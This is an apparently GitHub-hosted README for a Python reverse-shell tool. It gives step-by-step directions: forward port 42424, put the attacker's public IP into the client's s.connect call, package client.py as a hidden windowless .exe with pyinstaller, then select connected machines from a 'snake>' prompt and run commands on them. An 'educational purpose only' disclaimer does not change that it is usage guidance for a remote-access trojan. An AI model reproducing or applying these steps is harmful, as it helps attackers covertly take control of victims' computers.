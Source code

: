 This is a hacking tool to get a reverse shell.
This is tool is for educational purpose only!
The responsibility on every use of this tool is on the user only!

## Installation 
type in the command line `pip install -r requirements.txt` to install all required modules

## How to use
make sure that you have port forwading on port 42424 (you can change it if you want) to your computer.

## Client
make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`
## Conver client.py to .exe
type in the terminal `pyinstaller -w --onefile "Multiple Clients/client.py"`.
then you can delete the .spec file and the build folder.
the exe will be in "dist" folder.
\n
## Using the tool
start server.py and wait for connection.
to see of all your connections type `snake> list` in the interacive prompt.
to send commands to one of your connections type `select` and the ID number of the connection.
E.X.:
`snake> select 0`
when you are in the reverse shell of one of your connection' you can type `getos` to see what OS is running on your connection machine.
if you want to quit from your connection, type `quit` and then you'll be back in the interactive prompt.
if you want to quit from the entire program type `shutdown` in the interactive prompt.
